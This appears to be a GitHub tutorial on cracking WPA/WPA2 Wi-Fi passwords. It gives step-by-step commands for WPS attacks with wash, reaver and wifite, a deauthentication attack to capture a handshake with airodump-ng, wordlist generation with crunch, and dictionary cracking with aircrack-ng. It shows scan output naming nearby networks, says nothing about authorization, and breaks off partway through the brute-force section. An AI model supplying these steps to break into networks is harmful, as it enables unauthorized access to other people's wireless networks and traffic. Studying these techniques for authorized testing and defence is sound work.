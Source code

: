 # Play With WPA / WPA2 Encryption


### WPA/WPA2:
- WPA/WPA2 (Wi-Fi Procted Access) is the latest generation of network encryption.
- It's desgined to secure wireless computer network.
- WPA/WPA2 are similar but the only different is WPA2 uses CCMP algorithm.
- It's the most widely used encryption to secure the networks.
- It's using a unique temporary key and using 256 bits.

First we have to check is which network have WPA and enable on it. We gonna use tool called **wash**.

Open a terminal and type: `wash`

You will see the all option.

`wash -i wlan0mon -F`

```
wahs		-> tool
-i			-> interface
wlan0mon	-> network card name
-F			--ignore-fcs (Ignore frame checksum errors)
```
Select your target.

```
BSSID               Ch  dBm  WPS  Lck  Vendor    ESSID
--------------------------------------------------------------------------------
50:64:2B:47:F0:53    1  -75  2.0  No   RalinkTe  Arnob Amit
0C:80:63:78:0F:0A    1  -91  2.0  No   RalinkTe  jarif
D4:6E:0E:77:03:1E    1  -86  2.0  No   RalinkTe  AHAD JOY
14:CC:20:B2:B3:E2    1  -88  1.0  No   AtherosC  WiFi
C4:6E:1F:0B:A2:E0    1  -61  1.0  No   AtherosC  shad wi-fi
```
Now We gonna use tool called **reaver**.

`reaver -i wlan0mon -b 50:64:2B:C7:3E:30 -c 6 -vv 1`

```
reaver				-> tool
-i					-> interface
wlan0mon			-> network card on monitor mode
XX:XX:XX:XX:XX:XX	-> target network mac address
-c					-> channel
-vv					-> display non chractor error
-K					-> pixie-dust
```
This method is not working good. Now we use **wifite** tool. Just use the command then network scan will be automatically.

`wifite`

```
NUM                      ESSID   CH  ENCR  POWER  WPS?  CLIENT
   ---  -------------------------  ---  ----  -----  ----  ------
     1                      L1F2     1   WPA   51db   yes                                             
     2                      LiFi     6   WPA   48db    no                                             
     3                shad wi-fi     1   WPA   40db   yes                                             
     4                        SK     3   WPA   35db   yes    1                                        
     5                     maruf    11   WPA   35db    no
```

Then press *ctrl+c* and type your target channel. Example:

`[+] select target(s) (1-40) separated by commas, dashes or all: 1`

This method is not working maximux time. Now we use another method.

## Capture The Handshake File

We can only capture handshake file when a client connect to the network.

**Steps:**
- We will disconnect the client using deauthentication attack.
- Then we will let him connect again by stoping the attack.
- After that will be able to capture the handshake. 


`airmon-ng start wlan0`		-> change monitor mood.

`airodump-ng wlan0mon`		-> scan the network

Scan the target network.
`airodump-ng -c 5 --bssid XX:XX:XX:XX:XX:XX --write HandShak wlan0mon`

New *.cap* file is created.

## Creating a wordlist.

Crunch can generate all possible combinations and permutations.

**Crunch Useful Commands:**

- (MIN) The minimum number of characters
- (MAX) The maximun number of character
- T(PATTERN) You can use it if you know the first or the last *character* of the password
- O(OUTPUT) where do you want to output the wordlist

`CRUNCH (MIN)(MAX) {CHARACTERS:NUMBERS|SYMBOLES|CAPITAL OR SMALL LETTER} -T (PATTERN) -O (OUTPUT)`

Example create word list.

`crunch 5 8 123456abcdefg -o /root/Documents/wordlist.list`

or you can min and max is same number.

`crunch 8 8 123456abcdefg -o /root/Documents/wordlist.list`

`crunch 5 5 123456abcdefg -t a@@@b -o /root/Documents/wordlist.list`


## Dictionary Attack

Guessing the password of the access point by using a wordlist contants a large number of passwords.

**THEORY**
- Aircrack-ng tool will combine the passwords with the access point name.
- Create a pairwish master key or (PMK) using PBKDF2 algorithm
- This PMK is going to compared to the **HANDSHAK**

Target you network as like befoure and then dictionary attack using aircrack-ng tool.

`aircrack-ng dictionary-01.cap -w '/root/Documents/wordlist.list`

If the password is in your wordlist then you get it.


## Creacking WPA/WPA2 Using BRETEFORCE Attack

The problems that we could face with dictionary attack is there is not enough space on our HARD DRIVE nad tacking time to generate a big wordlist.

**BruteForce Attack:**

- Capture the HANDSHAKE.
- Use AIRCRACK-NG and CRUNCH at the same time.
- Use CRUNCH to specify the charactures.

Chanve manage mode to monitor mode.
`airmon-ng start wlan0`

Scaning network for target.
`airodump-ng wlan0mon`

Target network scaning.
`airodump-ng -c 5 --bssid XX:XX:XX:XX:XX:XX --write bruteforce wlan0mon`

